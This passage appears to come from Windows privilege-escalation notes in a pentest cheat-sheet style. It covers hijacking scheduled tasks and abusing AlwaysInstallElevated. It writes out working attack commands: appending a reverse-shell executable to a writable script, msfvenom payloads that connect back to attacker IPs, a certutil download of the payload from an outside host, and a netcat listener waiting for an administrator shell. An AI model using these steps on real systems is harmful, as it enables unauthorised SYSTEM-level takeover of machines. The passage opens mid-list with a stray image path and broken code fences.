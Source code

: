 ```

    ```
    > copy C:\Dir\Vulnerable.ps1 C:\Temp\
    ```
3. Start a listener on your host (e.g Kali or Parrot).
4.  Add a call to our reverse shell executable to the end of the script with echo:

    ```
    > echo C:\PrivEsc\reverse.exe >> C:\Dir\Vulnerable.ps1
    ```
5. To finish the exploit, wait for the scheduled task to run (it should run every x amount of time).

#### Scheduled Tasks Privilege Escalation Method #2

1. I was able to delete `name.EXE` which means we can replace it with a malicious shell. Knowing this we can generate a reverse shell with `msfvenom` and call it `name.EXE`.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.230 LPORT=21 -f exe > name.EXE
```

2\. The shell was then uploaded with `certutil.exe`.

```
certutil.exe -f -urlcache -split http://192.168.49.230/TFTP.EXE
```

3\. A `netcat` listener was set up on port 21 and after 5 minutes the `TFTP.EXE` was executed as part of the scheduled task and we receive an administrator shell.

```
sudo nc -lvp 21
```

## AlwaysInstallElevated

### Malicious MSI

These registry keys tell windows that a user of any privilege can install `.msi` files are NT AUTHORITY\SYSTEM. All that we need to do is create a malicious `.msi` file, and run it.

We can use `msfvenon` to create the MSI installer. We’ll use a reverse shell payload that I can catch with `nc`:

```bash
wixnic@kali$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```
